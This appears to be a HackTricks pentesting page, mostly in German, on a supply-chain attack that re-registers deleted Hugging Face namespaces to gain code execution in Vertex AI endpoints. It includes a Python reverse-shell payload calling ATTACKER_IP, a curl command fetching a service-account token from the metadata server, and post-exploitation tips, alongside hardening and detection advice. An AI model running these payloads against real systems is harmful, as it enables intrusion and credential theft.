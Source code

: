 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Szenario

- Vertex AI Model Garden erlaubt die direkte Bereitstellung vieler Hugging Face (HF) Modelle.
- HF model identifiers are Author/ModelName. Wenn ein Autor/Org auf HF gelöscht wird, kann derselbe Autorenname von jeder Person neu registriert werden. Angreifer können dann ein repo mit demselben ModelName am legacy path anlegen.
- Pipelines, SDKs oder cloud catalogs, die nur nach Name abrufen (kein pinning/integrity), ziehen das attacker-controlled repo. Wenn das Modell bereitgestellt wird, kann loader code aus diesem repo im Vertex AI endpoint container ausgeführt werden und RCE mit den Berechtigungen des Endpunkts ermöglichen.

Zwei häufige Takeover-Fälle auf HF:
- Ownership deletion: Alter Pfad liefert 404, bis jemand den Autor neu registriert und denselben ModelName veröffentlicht.
- Ownership transfer: HF gibt 307-Redirects vom alten Author/ModelName an den neuen Autor aus. Wenn der alte Autor später gelöscht und vom Angreifer neu registriert wird, wird die Redirect-Kette unterbrochen und das repo des Angreifers am legacy path ausgeliefert.

## Identifizierung wiederverwendbarer Namespaces (HF)

- Old author deleted: Die Seite für den Autor liefert 404; der model path kann bis zur Übernahme 404 zurückgeben.
- Transferred models: Der alte model path gibt 307 an den neuen Besitzer zurück, solange der alte Autor existiert. Wenn der alte Autor später gelöscht und neu registriert wird, wird der legacy path auf das repo des Angreifers verweisen.

Schnelle Überprüfungen mit curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-End-Angriffspfad gegen Vertex AI

1) Discover reusable model namespaces that Model Garden lists as deployable:
- Find HF models in Vertex AI Model Garden that still show as “verified deployable”.
- Verify on HF if the original author is deleted or if the model was transferred and the old author was later removed.

2) Re-register the deleted author on HF and recreate the same ModelName.

3) Publish a malicious repo. Include code that executes on model load. Examples that commonly execute during HF model load:
- Seiteneffekte in __init__.py des repo
- Benutzerdefinierte modeling_*.py- oder Verarbeitungscode, auf den in config/auto_map verwiesen wird
- Codepfade, die trust_remote_code=True in Transformers-Pipelines erfordern

4) A Vertex AI deployment of the legacy Author/ModelName now pulls the attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload establishes access from the endpoint environment (RCE) with the endpoint’s permissions.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Hinweise
- In der Praxis variieren Loader. Viele Vertex AI HF-Integrationen klonen und importieren Repo-Module, die in der Modellkonfiguration referenziert werden (z. B. auto_map), was Codeausführung auslösen kann. Manche Verwendungsszenarien erfordern trust_remote_code=True.
- Der Endpoint läuft typischerweise in einem dedizierten Container mit begrenztem Umfang, ist aber ein valider erster Zugangspunkt für Datenzugriff und lateral movement in GCP.

## Post-Exploitation-Tipps (Vertex AI Endpoint)

Sobald Code im Endpoint-Container läuft, in Betracht ziehen:
- Umgebungsvariablen und Metadaten auf credentials/tokens durchsuchen
- Auf angeschlossenen Storage oder gemountete model artifacts zugreifen
- Mit Google APIs über die service account identity interagieren (Document AI, Storage, Pub/Sub, etc.)
- Persistence im model artifact, falls die Plattform das repo neu zieht

Instanz-Metadaten aufzählen, falls zugänglich (abhängig vom Container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Empfehlungen zur Absicherung für Vertex AI-Benutzer

- Modelle per Commit in HF loaders pinnen, um eine stille Ersetzung zu verhindern:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spiegeln Sie geprüfte HF-Modelle in ein vertrauenswürdiges internes Artefakt-Repository und stellen Sie sie von dort bereit.
- Scannen Sie kontinuierlich Codebasen und Konfigurationen nach hartkodierten Author/ModelName, die gelöscht/übertragen wurden; aktualisieren Sie auf neue Namespaces oder pinnen Sie per Commit.
- In Model Garden verifizieren Sie die Provenienz des Modells und die Existenz des Author vor der Bereitstellung.

## Erkennungsheuristiken (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Querverweise

- Siehe die umfassendere Methodik und Hinweise zur Lieferkette:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referenzen

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
